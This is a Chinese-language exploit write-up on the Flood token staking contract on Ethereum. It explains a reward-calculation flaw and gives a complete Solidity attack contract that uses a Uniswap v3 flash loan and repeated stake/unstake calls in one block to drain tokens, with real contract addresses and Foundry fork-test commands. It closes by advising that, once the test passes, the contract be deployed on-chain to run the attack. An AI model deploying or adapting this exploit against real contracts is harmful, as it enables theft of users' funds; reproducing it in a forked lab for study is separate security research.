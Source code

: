 # 0 背景

flood代币是以太坊链上一款主打质押分红的代币，通过质押合约对代币进行质押，进而分红。由于其质押合约存在逻辑缺陷，遭遇盗窃。

>flood合约地址：https://etherscan.io/address/0xf59257E961883636290411c11ec5Ae622d19455e#code\
>flood借贷合约地址：https://etherscan.io/address/0x759c6De5bcA9ADE8A1a2719a31553c4B7DE02539#code

# 1 缺陷分析
检查flood质押合约，发现其在stake函数调用的时候直接计算了分红数量
![Alt text](./images/image1.png)
在unstake解除质押时为限制执行区块
![Alt text](./images/image2.png)
因此可以考虑通过闪电贷抽干flood的流动性，然后在单个区块内循环质押、解除质押，获取超额的flood代币，然后砸盘掏空池子。

# 2 实现逻辑
![Alt text](./images/image3.png)
# 3 代码测试
拉取defihacklab代码（记得给终端挂代理）
git clone https://github.com/SunWeb3Sec/DeFiHackLabs.git
在./src/test/目录下创建一个FloodTest.sol合约，用于攻击测试
```javascript

// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "./interface.sol";

/* @KeyInfo -- Total Lost : 40 eth
    Attacker Transaction : https://explorer.phalcon.xyz/tx/eth/0x1274b32d4dfacd2703ad032e8bd669a83f012dde9d27ed92e4e7da0387adafe4
    Test: forge test --mc FloodStakingExploit -vv
    */

//质押合约接口声明
interface IFloodStaking {
    function unstake(
        address _to,
        uint256 _amount,
        bool _trigger,
        bool _rebasing
    ) external;
    function stake(
        address _to,
        uint256 _amount,
        bool _rebasing,
        bool _claim
    ) external returns (uint256);
}

// uniswap接口声明
interface IUniswapv3 {
    function flash(
        address recipient,
        uint256 amount0,
        uint256 amount1,
        bytes calldata data
    ) external;

    function swap(
        address recipient,
        bool zeroForOne,
        int256 amountSpecified,
        uint160 sqrtPriceLimitX96,
        bytes calldata data
    ) external returns (int256 amount0, int256 amount1);
}

//攻击合约
contract DoHack{
    IERC20 flood = IERC20(0xf59257E961883636290411c11ec5Ae622d19455e);
    IERC20 gFlood = IERC20(0xb1Cc59Fc717b8D4783D41F952725177298B5619d);
    IERC20 WETH = IERC20(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);

    IFloodStaking staking = IFloodStaking(0x759c6De5bcA9ADE8A1a2719a31553c4B7DE02539);
    IUniswapv3 floodUniPool = IUniswapv3(0xB386c1d831eED803F5e8F274A59C91c4C22EEAc0);

    function doFlash() public {
        //闪电贷贷款flood
        flood.approve(address(staking), type(uint256).max);
        IUniswapv3(0xB386c1d831eED803F5e8F274A59C91c4C22EEAc0).flash(address(this), 0, 152089813098498, '');
      
        console2.log("sell flood, balance", flood.balanceOf(address(this)));
        //IUniswapv3(0xB386c1d831eED803F5e8F274A59C91c4C22EEAc0).swap(attacker, false,int256( 2000), 1461446485210103287273052203988822378723970341, '');
    }

    function uniswapV3FlashCallback(uint256 t0 , uint256 t1, bytes calldata) external {
        while(true) {//循环质押&解除质押
            uint256 base = flood.balanceOf(address(this));
            //质押flood
            staking.stake(address(this), base, false, true);
            //解除质押
            staking.unstake(address(this), gFlood.balanceOf(address(this)), true, false);
            if( base >= 168129055504376) {
                break;
            }
        }

        flood.transfer(msg.sender, 153610711229483);//把白嫖到的flood转走卖钱
        console2.log("flood balance after ", flood.balanceOf(address(this)));
        console2.log("gflood balance after", gFlood.balanceOf(address(this)));

    }

}


//测试合约
contract FloodStakingExploit is Test {
    function setUp() public {
        vm.createSelectFork("https://eth.llamarpc.com", 18068772);//在区块18068772进行本地分叉模拟
    }

    function test_Flash() public {
        DoHack doHack = new DoHack();
        doHack.doFlash();
    }
}
```
执行测试命令
```shell
DeFiHackLabs % forge test --contracts ./src/test/FloodTest.sol -vvv
```
如果测试没问题，就可以把合约部署到线上，然后调用合约进行攻击